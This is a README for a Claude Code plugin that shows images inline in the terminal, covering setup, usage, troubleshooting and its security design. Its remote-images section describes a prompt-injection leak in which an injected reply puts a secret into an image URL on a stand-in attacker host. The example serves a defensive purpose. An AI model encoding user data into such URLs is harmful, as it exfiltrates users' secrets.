

# cc-image-view

English | [简体中文](README.zh-CN.md)

A [Claude Code](https://code.claude.com) plugin that shows images inline in the terminal transcript: the files Claude's replies mention, the pictures tools return, and image URLs you choose to load.

Claude Code's terminal UI shows an image path as plain text. When Claude writes `saved the chart to out/chart.png`, reads a screenshot with the Read tool, or takes a browser screenshot through an MCP server, the model sees the picture and you do not. This plugin draws it right under that row.



## What it shows

| Source | Example | Loaded |
| --- | --- | --- |
| Local paths in a reply | ``, `` `~/Desktop/shot.jpg` ``, a bare `plot.webp` | automatically, if the file exists |
| Images in tool results | Read on a PNG/JPEG, MCP screenshots (chrome-devtools and others), collapsed "Read 3 files" groups | automatically |
| `http(s)` image URLs in a reply | `` | only when you press **Load** or run `/img <url>` (see [Remote images](#remote-images)) |
| Anything you name | `/img path/to/picture.heic` | on demand |

Formats: PNG, JPEG, GIF (first frame), WebP, BMP, TIFF, HEIC. A path that does not exist shows nothing, since replies often name files that are not written yet.

## Requirements

- **Claude Code with plugin function hooks.** Tested on 2.1.288. This plugin API is early access and may change between Claude Code releases.
- **A terminal Claude Code draws images in.** Claude Code draws images through the kitty graphics protocol's Unicode placeholders, and only when the terminal identifies itself as **kitty (0.28 or later)** or **Ghostty**. Elsewhere each picture falls back to a dim line with its name.
  - Inside **tmux or screen**, Claude Code does not draw images.
  - Inside **[herdr](https://herdr.dev)**, start Claude Code with `CLAUDE_CODE_FORCE_TERMINAL_IMAGES=1` and set `kitty_graphics = true` under `[experimental]` in `~/.config/herdr/config.toml`. herdr answers the terminal query itself, so Claude Code does not recognise it, but it does draw placeholder images.
- **An image converter.**
  - macOS: nothing to install (uses the built-in `sips`).
  - Linux: ImageMagick 7 (`magick`) or 6 (`convert` and `identify`). HEIC needs ImageMagick built with libheif. The converter commands are tested against ImageMagick 7.1 on Debian 13.
  - `curl`, for remote images.

## Install

In Claude Code:

```
/plugin marketplace add gdyan2022/claude-code-image-view
/plugin install cc-image-view@claude-code-image-view
```

Or from a shell:

```sh
claude plugin marketplace add gdyan2022/claude-code-image-view
claude plugin install cc-image-view@claude-code-image-view
```

Start a new session afterwards. Plugin hooks load only in a workspace you have trusted.

## Usage

There is nothing to run: pictures appear under the reply or tool result that refers to them. To show one yourself:

```
/img ~/Pictures/diagram.png
/img https://example.com/photo.jpg
```

The repository's `samples/` folder has two test cards (`test-card-2x1.png`, `test-card-square.jpg`) and an example picture (`synthwave-sunset.png`). Each test card has a circle in the middle: if it shows as an ellipse, your terminal's cells are not the 1:2 shape the plugin assumes (see [Troubleshooting](#troubleshooting)).

## Turning images off

**Show images** in `/plugin configure cc-image-view@claude-code-image-view` is the lasting setting. Turn it off and no pictures are drawn anywhere: under replies, under tool results, or for `/img` itself.

`/img off` and `/img on` switch pictures for the current session only, and the pictures already in the transcript disappear or come back at once. A new session starts from the menu's setting again, and changing the setting in the menu replaces the session's switch.

## Remote images

Image URLs in a reply are **not fetched automatically**. A row shows the URL and a **Load** button instead.

`/img <url>` loads at once when you typed it yourself (or sent it through Remote Control). When a `/img` run comes from anywhere else, such as another Claude session, a relayed Slack or Telegram channel, a scheduled task or another plugin, it gets the **Load** button too.

The reason is a known data-leak pattern. A reply shaped by a prompt injection (say, from a web page Claude read) can put data into an image URL such as `https://attacker.example/x.png?d=<secret>`, and the request that fetches the picture delivers it. Loading only on your action keeps that request yours to make.

If you accept that risk, turn on **Auto-load remote images**:

```
/plugin configure cc-image-view@claude-code-image-view
```

## Troubleshooting

| You see | Cause | Fix |
| --- | --- | --- |
| A dim file name where the picture should be | Claude Code does not draw images in this terminal | Use kitty or Ghostty; inside herdr, set `CLAUDE_CODE_FORCE_TERMINAL_IMAGES=1` (see [Requirements](#requirements)) |
| A blank box where the picture should be | The terminal received the picture but could not draw it | Usually a multiplexer that does not pass kitty graphics through |
| `no image converter found` | Linux without ImageMagick | Install ImageMagick |
| The test card's circle is an ellipse | Your font's cells are not about twice as tall as wide | Adjust `CELL_ASPECT` in `hooks/refs.ts` and open an issue with your terminal and font |
| `/img` is not a command | The plugin did not load | Check `claude plugin list`, trust the workspace, start a new session |

## How it works

- `ui.render` hooks on assistant replies, tool results, collapsed tool groups and the `/img` output append an `Image` element under the engine's own drawing. The stored conversation is never changed, so the model sees exactly what it saw before.
- Converting and downloading happen in the background, never while drawing. A row first shows `loading image`, then redraws once the picture is ready.
- Files are sniffed by their first bytes, and only the formats above reach a converter. ImageMagick is always told the format (`jpeg:file[0]`), so it never chooses a decoder from file contents.
- A path under a host-keyed automount root (`/net`, `/Network`) is never touched, since even checking whether it exists makes the machine contact the host named in it. Paths are resolved one component at a time from directory listings, which show a link as a link; a link's target is read with `readlink` and checked before it is followed. So a route through a link to `/` (`/Volumes/Macintosh HD`, `/proc/self/root`) or a link in a cloned repository (`docs/diagram.png -> /net/<host>/x.png`) is caught too. Downloads run `curl` with URL globbing off and only `http`/`https` allowed, for redirects too.
- Converted and downloaded files are cached in `${XDG_CACHE_HOME:-~/.cache}/cc-image-view/`, a directory only you can read (mode 700). A shared `/tmp` would let another local user plant a symlink where the plugin writes. Limits: 6 pictures per reply block, 80 columns × 24 rows each, 2 MiB per encoded PNG, 256 MiB of pictures per session.
- Claude Code refuses a row whose pictures carry more than 2 MiB of PNG between them. Pictures go inline until that is used up; the rest are handed to the terminal as files from the cache, which it reads itself (kitty and Ghostty do).

## Limitations

- SVG is not supported.
- In a fenced code block, only a line that is a path on its own shows a picture. Lines with other words on them (`ls` output, commands, code) are ignored on purpose, so command output does not turn into a gallery.
- Animated GIFs show their first frame.

## Development

```sh
git clone https://github.com/gdyan2022/claude-code-image-view
cd claude-code-image-view
claude --plugin-dir .                              # run Claude Code with this checkout loaded
claude plugin validate .claude-plugin/plugin.json  # what the engine would refuse
claude plugin test .                               # unit tests in tests/
npx -p typescript tsc -p .                         # type-check
```

Type-checking needs `.claude-plugin/types/`, which Claude Code writes the first time it loads the plugin from disk (the `claude --plugin-dir .` step).

## License

[MIT](LICENSE)
